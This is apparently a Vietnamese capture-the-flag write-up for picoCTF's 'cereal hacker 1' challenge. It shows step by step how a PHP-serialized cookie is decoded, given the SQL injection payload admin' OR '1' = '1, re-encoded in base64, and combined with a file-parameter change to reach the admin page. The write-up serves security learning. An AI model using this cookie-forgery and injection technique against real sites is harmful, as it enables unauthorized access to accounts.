

#### cereal hacker 1 ([Link](https://2019shell1.picoctf.com/problem/37889/index.php?file=login))

- *Fuzzing* đại những cặp *user và pass* hay gặp thì khá may mắn là *guest và guest* hợp lệ

- Nhìn *cookie* thì có dạng như thế này:

  - `user_info` : `TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiZ3Vlc3QiO3M6ODoicGFzc3dvcmQiO3M6NToiZ3Vlc3QiO30%253D`

- Đây là mã *base64*, thử decode xem

  - `O:11:"permissions":2:{s:8:"username";s:5:"guest";s:8:"password";s:5:"guest";}`

- Đây là dạng cơ bản của dạng bài `serialize`, các bạn tham khảo thêm, đây là 1 trong những vấn để của *OWASP* 

- Theo hint nói thì đây là 1 bài *sql injection* (hint lấy trong phần game)

- Giờ ta có thể đoán *user* của admin là admin, *pass* chưa biết. Nên bây giờ ta tiêm payload vào đây

- Payload: `admin' OR '1' = '1`

- Tuy nhiên cần cho payload này vô `serialize` :

  - `O:11:"permissions":2:{s:8:"username";s:5:"admin";s:8:"password";s:18:"admin' OR '1' = '1";}`
  - Từ `s:5` ta chuyển thành `s:18` do payload của ta chứa 18 ký tự. Giờ encode base64 vào cho vô *coookie* lại và xem kết quả

- Cookie lúc này là: 

  - `user_info` : `TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiYWRtaW4iO3M6ODoicGFzc3dvcmQiO3M6MTg6ImFkbWluJyBPUiAnMScgPSAnMSI7fQ==`

- Ta chuyển qua page admin bằng cách đổi *endpoint* thành *?file=admin*, đây là 1 lỗi *LFI* nhỏ nhỏ

- Khi chuyển qua page admin, ta nhận được flag

  
